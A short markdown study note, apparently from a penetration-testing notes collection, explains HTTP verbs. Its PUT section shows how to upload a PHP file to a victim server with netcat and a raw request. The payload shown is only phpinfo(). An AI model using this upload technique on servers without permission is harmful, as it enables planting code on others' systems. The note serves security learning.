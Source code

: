 # HTTP Verbs

### Get

It is used to request a resource. We can also pass arguments to webserver in url using `?`

***

### Post

It is used to submit HTML form data. POST parameters should be in message body

***

### Head

It asks header of the response instead of also getting the body.

***

### Put

It is used to upload a file to the server. It is very dangerous if allowed and misconfigured

```
PUT /path/to/destination HTTP/1.1
Host: www.example.com

<Put Data>
```

#### Exploiting the PUT Method

You have to specify the size of file that you are sending

```bash
$ wc -m payload.php
20 payload.php
```

* \-m tells us how long in bytes our payload is.

```bash
$ nc victim_ip port
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```

* HTTP/1.0 allows us to skip the **Host:** header

***

### Delete

It is used to remove a file from the server. It is also very dangerous which can lead to denial of service and data loss

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.com
```

***

### Options

It is used to query web server for enabled http verbs.
